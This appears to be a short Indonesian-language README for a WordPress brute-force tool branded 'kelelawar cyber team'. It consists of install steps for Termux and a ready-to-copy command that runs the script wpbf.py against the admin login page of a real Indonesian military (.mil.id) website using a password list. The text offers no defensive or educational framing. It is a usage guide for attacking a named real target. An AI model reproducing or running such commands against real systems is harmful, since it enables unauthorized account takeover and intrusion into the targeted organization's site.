 # Wordpress-Bruteforce

<img src="https://l.top4top.io/p_2240nm0hp0.png" width="400" height="400" alt="kelelawar cyber team">
<br>
# Perintah Menjalankan: 
<div class="snippet-clipboard-content position-relative overflow-auto">
<pre><code>
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt
</code></pre>
<div class="zeroclipboard-container position-absolute right-0 top-0">
<clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="$ pkg update &amp;&amp; upgrade
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt" tabindex="0" role="button" style="display: inherit;">

